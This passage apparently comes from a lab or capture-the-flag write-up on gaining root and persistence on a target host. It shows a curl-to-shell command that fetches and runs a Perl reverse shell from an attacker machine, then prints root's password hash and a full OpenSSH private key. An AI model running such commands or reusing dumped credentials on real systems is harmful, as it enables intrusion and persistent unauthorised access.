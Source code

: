 ```bash
curl 10.50.85.129:6969/PerlRev.pl | sh
```

![[Pasted image 20240425152231.png]]

After stabilizing the shell - (https://github.com/0xScorpio/Ethical-Hacking/blob/main/README.md#reverse-shell-stabilization), we can check for the root user's password hash, for persistence:
![[Pasted image 20240425153755.png]]
`root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1`

Root hash is uncrackable, so let's check what we can find in the root folder. It looks like SSH keys are stored, which is perfect for us - we can SSH whenever we want to.

```sshkey
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
